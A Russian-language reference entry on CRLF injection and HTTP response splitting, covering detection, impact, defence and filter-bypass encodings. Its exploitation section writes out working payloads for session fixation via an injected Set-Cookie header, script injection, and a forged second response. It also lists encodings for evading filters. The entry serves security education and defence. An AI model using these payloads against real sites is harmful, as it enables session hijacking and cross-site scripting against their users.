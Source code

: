 


# уязвимость/атака

## Описание
Атака представляет из себя модификацию заголовков ответа возвращаемого пользователю путем вставки символов переноса строки (CR LF). Она эксплуатирует недостаток валидации данных, полученных от пользователя.


## Классификация
- Добавление своего заголовка
- **HTTP Response Splitting** - разделение ответа сервера на 2

## Условия
- ОС: любая
- Сервер: любой
- При определенных условиях в заголовках ответа встречаются данные, полученные от пользователя (Чаще всего в заголовках `Location` и `Set-Cookie`).
## Детектирование
- Для выявления необходимо исследовать заголовки ответов сервера.
- При обнаружении информации, похожей на пользовательский ввод в него подставляются символы переноса строки (`%0D%0A` в URL-кодировке) и отслеживаются изменения заголовков.

## Эксплуатация
Пример уязвимого эндпоинта: при переходе на `http://vulnerable?redirect=location`ответ выглядит следующим образом:
```http
...
Location: location
...
```
- При передачи параметра `location=example.com%0d%0aSet-Cookie: Session_id=some_value` будет возвращено:
```http
...
Location: example.com
Set-Cookie: Session_id=some_value
...
```
В результате этого произойдет установка известной сессии.
- При передачи параметра `location=example.com%0d%0aX-XSS-Protection:0%%0d%0a%0d%0a<script>some_code</script>` будет возвращено:
```http
...
Location: example.com
X-XSS-Protection:0

<script>some_code</script>
...
```
В этом случае переданный JavaScript код попадет в тело ответа и будет выполнен
- Есть возможность добавить добавить еще один ответ от сервера (при условии возможности инициировать несколько запросов пользователя). Например передав `location=example.com%0D%0A%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0A%0D%0A%3Chtml_code%3E` будет возвращено:
```http
...
Location: example.com


HTTP/1.1 200 OK
Content-Type: text/html

<html_code>
...
```
Браузер пользователя распознает это как 2 http ответа и на 2 запрос отобразит переданный код.
### Инструменты
- [Wapiti](http://wapiti.sourceforge.net/)
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Ущерб
Возможна следующая эксплуатация данной уязвимости:
- Установка произвольных кук пользователю, в том числе фиксация сессии.
- Возможность применения XSS.
- Отображение произвольной информации пользователю и введение его в заблуждение.
- Возможность Cross-User атак.

## Защита
Фильтрация пользовательской информации, которая может попасть в заголовки.

## Обход защиты
- Использование различных кодировок:
	- ACII: `0x0D0x0A`
	- UTF8: `%E5%98%8D%E5%98%8A`